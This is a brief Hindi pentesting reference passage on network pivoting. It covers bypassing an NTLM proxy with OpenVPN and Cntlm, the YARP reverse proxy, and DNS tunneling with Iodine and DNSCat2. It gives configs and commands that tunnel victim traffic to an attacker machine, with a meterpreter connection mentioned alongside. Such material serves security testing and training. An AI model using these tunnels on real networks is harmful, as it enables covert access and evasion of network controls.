 ## NTLM प्रॉक्सी बायपास

पहले उल्लेखित उपकरण: **Rpivot**\
**OpenVPN** भी इसे बायपास कर सकता है, कॉन्फ़िगरेशन फ़ाइल में ये विकल्प सेट करके:
```bash
http-proxy <proxy_ip> 8080 <file_with_creds> ntlm
```
### Cntlm

[http://cntlm.sourceforge.net/](http://cntlm.sourceforge.net/)

यह एक प्रॉक्सी के खिलाफ प्रमाणीकरण करता है और एक पोर्ट को स्थानीय रूप से बाइंड करता है जो आपके द्वारा निर्दिष्ट बाहरी सेवा की ओर अग्रेषित होता है। फिर, आप इस पोर्ट के माध्यम से अपनी पसंद के उपकरण का उपयोग कर सकते हैं।\
उदाहरण के लिए, यह पोर्ट 443 को अग्रेषित करता है।
```
Username Alice
Password P@ssw0rd
Domain CONTOSO.COM
Proxy 10.0.0.10:8080
Tunnel 2222:<attackers_machine>:443
```
अब, यदि आप उदाहरण के लिए पीड़ित में **SSH** सेवा को पोर्ट 443 पर सुनने के लिए सेट करते हैं। आप इसे हमलावर पोर्ट 2222 के माध्यम से कनेक्ट कर सकते हैं।\
आप एक **meterpreter** का भी उपयोग कर सकते हैं जो localhost:443 से कनेक्ट होता है और हमलावर पोर्ट 2222 पर सुन रहा है।

## YARP

Microsoft द्वारा बनाया गया एक रिवर्स प्रॉक्सी। आप इसे यहाँ पा सकते हैं: [https://github.com/microsoft/reverse-proxy](https://github.com/microsoft/reverse-proxy)

## DNS Tunneling

### Iodine

[https://code.kryo.se/iodine/](https://code.kryo.se/iodine/)

दोनों सिस्टम में रूट की आवश्यकता होती है ताकि टन एडाप्टर बनाए जा सकें और DNS क्वेरी का उपयोग करके उनके बीच डेटा टनल किया जा सके।
```
attacker> iodined -f -c -P P@ssw0rd 1.1.1.1 tunneldomain.com
victim> iodine -f -P P@ssw0rd tunneldomain.com -r
#You can see the victim at 1.1.1.2
```
The tunnel बहुत धीमा होगा। आप इस टनल के माध्यम से एक संकुचित SSH कनेक्शन बना सकते हैं:
```
ssh <user>@1.1.1.2 -C -c blowfish-cbc,arcfour -o CompressionLevel=9 -D 1080
```
### DNSCat2

[**इसे यहाँ से डाउनलोड करें**](https://github.com/iagox86/dnscat2)**.**
